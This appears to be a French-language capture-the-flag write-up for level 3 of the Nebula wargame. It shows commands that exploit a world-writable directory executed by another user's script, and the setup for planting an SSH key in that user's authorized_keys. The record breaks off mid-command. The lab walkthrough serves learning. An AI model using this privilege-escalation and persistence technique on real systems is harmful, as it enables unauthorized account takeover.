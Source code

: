 ## Level 3

```shellsession
level03@nebula:/home/flag03$ ls -l
total 1
drwxrwxrwx 2 flag03 flag03  3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh
level03@nebula:/home/flag03$ ls -al writable.d/
total 0
drwxrwxrwx 2 flag03 flag03    3 2012-08-18 05:24 .
drwxr-x--- 3 flag03 level03 103 2011-11-20 20:39 ..
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

On a un dossier world-writable et un script bash qui va exécuter tout ce qu'il se trouve à l'intérieur. Le dossier est vide et il n'y a aucun signe visible que le script soit exécuté via une tache planifiée mais on va essayer :

```shellsession
level03@nebula:/home/flag03$ cat > /tmp/test
#!/bin/bash
touch /tmp/winner.txt
^C
level03@nebula:/home/flag03$ chmod 755 /tmp/test
level03@nebula:/home/flag03$ mv /tmp/test /home/flag03/writable.d/
```

Après quelques minutes c'est bien exécuté :

```shellsession
level03@nebula:/home/flag03$ ls -l /tmp/
total 3
-rw-rw-r-- 1 flag03  flag03   0 2023-01-31 01:06 winner.txt
```

On va faire de même mais en copiant une clé publique SSH à l'emplacement du `authorized_keys` :

```shellsession
level03@nebula:/home/flag03$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/level03/.ssh/id_rsa): /tmp/ctf_key
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/ctf_key.
Your public key has been saved in /tmp/ctf_key.pub.
The key fingerprint is:
45:85:90:5c:6f:37:ca:6f:17:7e:09:ae:8f:ee:69:ef level03@nebula
The key's randomart image is:
+--[ RSA 2048]----+
|       ..+oo.    |
|        o...     |
|          . o o  |
|         . o o . |
|        S   o. . |
|            ..o o|
|             .ooo|
|           .+. ..|
|          +*+E   |
+-----------------+
level03@nebula:/home/flag03$ cat > /tmp/test
#!/bin/bash
```